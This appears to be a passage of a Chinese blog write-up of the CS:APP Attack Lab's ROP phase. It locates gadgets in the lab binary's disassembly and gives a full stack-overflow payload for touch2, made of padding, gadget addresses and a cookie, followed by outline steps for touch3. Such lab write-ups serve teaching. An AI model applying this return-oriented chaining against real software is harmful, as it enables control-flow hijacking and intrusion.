 ![](https://upload-images.jianshu.io/upload_images/1433829-d6312f1ce53cf044.png?imageMogr2/auto-orient/strip|imageView2/2/w/754/format/webp)

![](https://upload-images.jianshu.io/upload_images/1433829-2a663eb32fae331a.png?imageMogr2/auto-orient/strip|imageView2/2/w/574/format/webp)

![](https://upload-images.jianshu.io/upload_images/1433829-c713c395456655fa.png?imageMogr2/auto-orient/strip|imageView2/2/w/621/format/webp)

![](https://upload-images.jianshu.io/upload_images/1433829-67690582e19e902b.png?imageMogr2/auto-orient/strip|imageView2/2/w/586/format/webp))

popq %rax 58

movq %rax, %rdi 48 89 c7

如下rax要的包含在这 我们可以得到0x4019ab就是popq %rax

```
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq   

```

如下是mov的

```
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq   
```

movq %rax, %rdi就是0x4019a2

so 我们得到的注入字符

填充40个字，然后popq %rax

传入cookie，接着让rdi指向rax指向的地址

最后call touch2

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```



### touch3

虽然是rop攻击但是整体思路不算变化太大，但是这里找地址传参的话要注意栈地址是随机的 我们还要多加一步找字符串的偏移量

1.获取rsp指向地址传给rdi

2.找偏移地址送到rsi
